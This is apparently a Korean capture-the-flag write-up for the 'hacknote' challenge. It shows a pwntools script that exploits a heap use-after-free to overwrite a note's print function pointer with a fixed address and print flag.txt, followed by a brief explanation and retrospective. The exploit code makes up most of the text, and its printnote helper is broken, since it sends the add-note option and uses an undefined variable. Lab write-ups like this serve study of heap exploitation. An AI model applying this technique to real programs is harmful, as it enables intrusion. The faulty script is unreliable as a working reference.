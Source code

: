 ``` python
 from pwn import *

 p = process('./hacknote')

 def addnote(size, content):
     p.recvuntil(":")
     p.sendline("1")
     p.recvuntil(":")
     p.sendline(str(size))
     p.recvuntil(":")
     p.sendline(content)

 def delnote(idx):
     p.recvuntil(":")
     p.sendline("2")
     p.recvuntil(":")
     p.sendline(str(idx))

 def printnote(idx):
     p.recvuntil(":")
     p.sendline("1")
     p.recvuntil(":")
     p.sendline(str(size))

 magic = 0x08048986
 addnote(32, "aaaa")
 addnote(32, "bbbb")
 addnote(32, "cccc")
 delnote(0)
 delnote(1)
 addnote(8, p32(magic))
 printnote(0)
```

<img width="1217" alt="5-6" src="https://user-images.githubusercontent.com/48270067/89704024-6536e780-d98b-11ea-9842-d415d70b35c1.PNG">

재사용을 요청하면 할당자는 이전에 free된 chunk중 요청이 들어온 크기와 같은 freed chunk를 반환해주는 점을 이용한다. notelist[0]이었던 부분의 print_note_content에 원하는 함수의 주소 즉 flag.txt를 입력해 flag.txt의 내용을 출력하게 하였다.

#### 결과
<img width="706" alt="5-8" src="https://user-images.githubusercontent.com/48270067/89704026-65cf7e00-d98b-11ea-9f88-1d4fe40552b9.PNG">


## 회고
SetUID로 권한을 변경해 다시 시도해볼 예정이다. 








